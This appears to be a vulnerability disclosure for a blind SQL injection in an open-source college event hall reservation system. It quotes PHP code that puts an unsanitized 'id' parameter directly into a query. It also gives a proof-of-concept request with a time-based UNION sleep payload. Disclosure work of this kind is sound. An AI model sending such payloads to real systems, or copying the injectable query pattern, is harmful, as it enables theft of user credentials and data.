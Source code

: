 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Blind SQL Injection on logincheck.php via home.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /home.php
> /config/logincheck.php

## Code
#### home.php
```php
<?php include('config/logincheck.php');$id=$_GET['id'];?>
```
#### /config/logincheck.php
```php

    $id=$_GET['id'];
    $sql="SELECT * FROM tbl_user WHERE user_id='$id'";
    $res=mysqli_query($conn,$sql);
    if($res==True){
      while($row=mysqli_fetch_assoc($res)){
        $user_name=$row['user_name'];
        $user_dept=$row['user_dept'];
        $user_email=$row['user_email'];
        $user_password=$row['user_password'];
      }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /home.php?id=NoChizPlz'+union+select+sleep(5),1,1,1,1+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot

